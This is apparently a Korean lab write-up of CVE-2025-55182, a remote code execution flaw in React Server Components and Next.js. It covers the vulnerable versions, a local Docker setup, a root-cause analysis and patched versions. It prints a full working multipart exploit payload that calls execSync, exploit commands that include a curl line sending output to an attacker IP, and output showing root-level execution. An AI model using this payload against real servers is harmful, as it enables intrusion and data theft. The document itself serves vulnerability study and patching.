

# CVE-2025-55182 (React2Shell)

> **React Server Components Unsafe Deserialization → Remote Code Execution**
>
> CVSS Score: **10.0 (Critical)** | 사전 인증 없이 원격 코드 실행 가능

---

## Environment

### 취약 버전

| 패키지 | 취약 버전 |
|--------|-----------|
| `next` | 15.0.0 ~ 15.2.5, 16.0.0 ~ 16.0.6 |
| `react` | 19.0.0, 19.1.0, 19.1.1, 19.2.0 |
| `react-dom` | 동일 |

본 실습에서는 `next@16.0.6`, `react@19.2.0`을 사용하였다.

### 환경 구성

취약 환경은 `l4rm4nd/CVE-2025-55182`의 pre-built Docker 이미지를 사용한다.

```
src/
├── app/
│   ├── layout.jsx   # 루트 레이아웃
│   └── page.jsx     # 메인 페이지 (Server Component)
├── package.json     # next@16.0.6, react@19.2.0 고정
└── next.config.mjs  # App Router 활성화
```

**Dockerfile** — 2단계 빌드: `node:20-alpine`에서 Next.js 빌드 후 런타임 이미지로 복사

**docker-compose.yml** — `127.0.0.1:3000`에 바인딩 (외부 노출 차단)

### 실행 방법

```bash
# 방법 1: Docker 단일 명령 (pre-built 이미지)
docker run --rm -p 127.0.0.1:3000:3000 ghcr.io/l4rm4nd/cve-2025-55182:latest

# 방법 2: docker compose
docker compose up -d
```

실행 후 `http://localhost:3000` 접속 시 Next.js 앱이 동작함을 확인한다.

---

## Root Cause

### 취약점 개요

CVE-2025-55182는 React Server Components(RSC)의 **Flight 프로토콜 역직렬화 과정**에서 발생하는 취약점이다. 공격자가 조작된 HTTP 요청을 Server Action 엔드포인트에 전송하면, 서버가 이를 역직렬화하는 과정에서 임의 JavaScript 코드가 실행된다.

### 취약 코드 분석

React RSC의 Flight 프로토콜은 클라이언트-서버 간 직렬화된 컴포넌트 데이터를 `$1:필드명` 형태의 참조로 전달한다. 취약점의 핵심은 역직렬화 시 **prototype chain 참조를 검증하지 않는다**는 점이다.

**발현 조건:**
- `'use server'` 지시어가 포함된 Server Action이 존재할 것
- `Next-Action` 헤더를 포함한 POST 요청 → RSC 역직렬화 경로 진입

**취약 흐름:**

```
1. POST / + Next-Action: x 헤더
        ↓
2. RSC Flight 역직렬화 시작
        ↓
3. "$1:__proto__:then" 참조
   → Object.prototype chain을 타고 Chunk.prototype.then 접근
        ↓
4. "_response._prefix" 내 JS 코드 실행
   → process.mainModule.require('child_process').execSync(cmd)
        ↓
5. throw NEXT_REDIRECT({digest: 명령결과})
   → 500 응답의 digest 필드에 실행 결과 반환
```

**핵심 취약 참조 구조:**

```json
{
  "then": "$1:__proto__:then",
  "_response": {
    "_prefix": "악성 JS 코드",
    "_formData": { "get": "$1:constructor:constructor" }
  }
}
```

- `$1:__proto__:then` : prototype 오염을 통해 `.then()` 핸들러 하이재킹
- `$1:constructor:constructor` : `Function` 생성자 접근 경로 확보
- `_prefix` : 역직렬화 시 앞에 붙어 실행되는 임의 JS 코드 삽입 지점

---

## PoC

### exploit.py 구조

```
exploit.py
├── build_payload(command)   # 악성 multipart 페이로드 생성
├── exploit(url, command)    # HTTP POST 요청 전송 및 결과 파싱
└── main()                   # CLI 인터페이스
```

### 페이로드 구성

```
POST / HTTP/1.1
Host: 127.0.0.1:3000
Next-Action: x                          ← RSC Server Action 처리 경로 진입
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id',{'timeout':5000}).toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'), {digest:`${res}`});",
    "_chunks": "$Q2",
    "_formData": { "get": "$1:constructor:constructor" }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"                                   ← Field 0 참조 → .then() 체인 트리거
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]                                      ← RSC Map 역직렬화용 빈 배열 (필수)
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

### 실행 명령

```bash
# pip 설치
pip install requests

# id 명령 실행
python3 exploit.py -t http://127.0.0.1:3000 -c "id"

# 파일 생성으로 RCE 확인
python3 exploit.py -t http://127.0.0.1:3000 -c "touch /tmp/pwned"

# 명령 출력 exfiltration (OOB)
python3 exploit.py -t http://127.0.0.1:3000 -c "curl http://<공격자IP>:8000/\$(id|base64)"
```

---

## Reproduction

### 재현 절차

**1. 취약 환경 실행**

```bash
docker run --rm -p 127.0.0.1:3000:3000 ghcr.io/l4rm4nd/cve-2025-55182:latest
```

Next.js 16.0.6이 `localhost:3000`에서 Ready 상태가 되면 진행한다.

**2. exploit 실행**

```bash
python3 exploit.py -t http://127.0.0.1:3000 -c "id"
```

**3. 결과 확인**

```
=====================================================
  CVE-2025-55182 React2Shell PoC
  RSC Unsafe Deserialization -> RCE
=====================================================
[*] 대상    : http://127.0.0.1:3000
[*] 명령어  : id
[*] 페이로드 전송 중...

[*] 응답 코드: 500
[*] 응답 본문:
0:{"a":"$@1","f":"","b":"JkJacmr3AsqLhdY9YSmrr"}
1:E{"digest":"uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),..."}

[+] RCE 성공! 명령 결과:
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

HTTP 500 응답의 `digest` 필드에 `id` 명령 실행 결과가 반환되었다. 컨테이너 내부에서 **root 권한(uid=0)**으로 임의 명령 실행이 가능함을 확인하였다.

### 스크린샷



### 패치 버전

| 패키지 | 패치 버전 |
|--------|-----------|
| `next` | 15.2.6+, 16.0.7+ |
| `react` | 19.2.1+ |

```bash
# 패치 적용
npm install next@latest react@latest react-dom@latest
```
